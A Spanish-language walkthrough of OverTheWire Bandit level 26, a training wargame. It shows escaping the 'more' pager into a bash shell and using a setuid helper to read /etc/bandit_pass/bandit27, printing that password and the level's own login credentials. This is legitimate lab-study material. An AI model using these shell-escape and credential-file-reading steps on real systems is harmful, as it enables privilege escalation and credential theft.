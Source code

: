 ## Objetivo

Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de acceso
- Puerto: 2220
- Host: bandit.labs.overthewire.org
- Contraseña: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
- Usuario: **bandit26

## Solución

Se ingresa al igual que en el ejercicio anterior, disminuyendo el tamaño de la pantalla para que aparezca la funcionalidad MORE, en donde introducimos el siguiente comando para crear un bash dentro de bandit 26

:shell=/bin/bash
:shell

Asi mismo ya estariamos dentro de bandit26

```
bandit26@bandit:~$ ls -la
total 44
drwxr-xr-x  3 root     root      4096 Oct  5 06:19 .
drwxr-xr-x 70 root     root      4096 Oct  5 06:20 ..
-rwsr-x---  1 bandit27 bandit26 14876 Oct  5 06:19 bandit27-do
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
drwxr-xr-x  2 root     root      4096 Oct  5 06:19 .ssh
-rw-r-----  1 bandit26 bandit26   258 Oct  5 06:19 text.txt
bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
```


## Notas adicionales



## Referencias

[ls(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/ls.1.html)
[cat(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/cat.1.html)
[file(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/file.1.html)
[find(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/find.1.html)

[SSH/OpenSSH/Keys - Community Help Wiki (ubuntu.com)](https://help.ubuntu.com/community/SSH/OpenSSH/Keys)
[cron (Unix) - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Cron_(Unix))